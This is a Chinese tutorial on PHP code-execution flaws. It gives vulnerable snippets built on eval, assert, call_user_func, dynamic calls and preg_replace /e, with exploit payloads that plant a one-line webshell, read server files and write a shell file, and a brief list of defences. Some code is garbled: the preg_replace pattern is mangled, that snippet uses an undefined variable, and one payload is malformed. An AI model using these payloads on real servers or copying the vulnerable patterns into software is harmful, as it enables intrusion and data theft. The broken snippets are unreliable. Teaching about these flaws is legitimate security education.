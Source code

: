 #### eval()

> ```php
> <?php
> 
> if(isset($_REQUEST['code'])){
> @$str=$_REQUEST['code'];
> 
> eval($str);
> 
> }
> 
> ?>
> ```
>
> ```php
> <?php
> 
> if(isset($_GET['code'])){
> @$str=$_GET['code'];
> 
> eval($str);
> 
> }
> 
> ?>
> ```
>
> 提交变量[?code=phpinfo();]
>
> 我们提交以下参数也是可以的
>
> [?code=${phpinfo()};]
>
> [?code=1;phpinfo();]

#### assert()

> ```php
> <?php
> 
> if(isset($_GET['code'])){
> @$str=$_GET['code'];
> 
> assert($str);
> 
> }
> 
> ?>
> ```
>
> 提交参数 [?code=phpinfo()]

#### call_user_func()

> ```php
> <?php
> 
> if(isset($_GET['fun'])){
> $fun=$_GET['fun'];
> 
> $para=$_GET['para'];
> 
> call_user_func($fun,$para);
> 
> }
> 
> ?>
> ```
>
> 提交参数[?fun=assert&amp;para=phpinfo()]

#### 动态函数$a($b)

> ```php
> <?php
> 
> if(isset($_GET['a'])){
> $a=$_GET['a'];
> 
> $b=$_GET['b'];
> 
> $a($b);
> 
> }
> 
> ?>
> ```
>
> [?a=assert$b=phpinfo()]

#### preg_replace()

> mixed preg_replace(mixed $pattern,mixed $replacement,mixed $subject[,int limit = -1[,int &$count]])
>
>  
>
> 这段代码的含义是搜索$subject 中匹配$pattern 的部分，以$replacement 进行替换，而$pattern处，及第一个参数存在e 修饰时，$replacement 的值会被当成PHP 代码来执行。典型的代码如下
> 
>
> ```php
> <?php
> 
> if(isset($_GET['code'])){
> @$str=$_GET['code'];
> 
> preg_replace("/
> [(.∗)]
> /e",'\\1',$code);
> 
> }
> 
> ?>
> ```
>
> 匹配$code$中的数据并执行'	'\\\1'表示正则第一次匹配的内容 
>
> 提交参数[?code=[phpinfo()]], phpinfo() 会被执行

#### 以上漏洞利用

##### 获取shell

> 提交参数[?code=@eval($_REQUEST[1])],即可构成一句话木马，密码为[1]。可以使用菜刀连接

##### 获取当前文件的绝对路径

> __FILE__ 是PHP 预定义常量，其含义为当前文件的路径。提交代码[?code=print(__FILE__);]

##### 读文件

> 我们可以利用file_get_contents() 函数读取服务器任意文件，前提是知道文件的绝对路径(也可是相对路径)和读取权限
>
> [?code=var_dump(file_get_contents('c:\windows\system32\drivers\etc\hosts'));]

##### 写文件

> 我们可以利用file_put_contents() 函数写入文件，前提是知道可写文件目录。
>
> 提交代码[?code=var_dump(file_put_contents($_POST[1],$_POST[2]));]
>
> 此时需要借助与hackbar 通过post 方式提交参数
>
> **1=shel.php&2=<?php phpinfo()?>**

#### 防御方法

> 1、尽量不要使用eval(不是函数，是语言结构) 等函数
>
> 2、如果使用的话一定要进行严格的过滤
>
> 3、preg_replace 放弃使用/e 修饰符
>
> 4、修改配置文件
>
> disable_functions=assert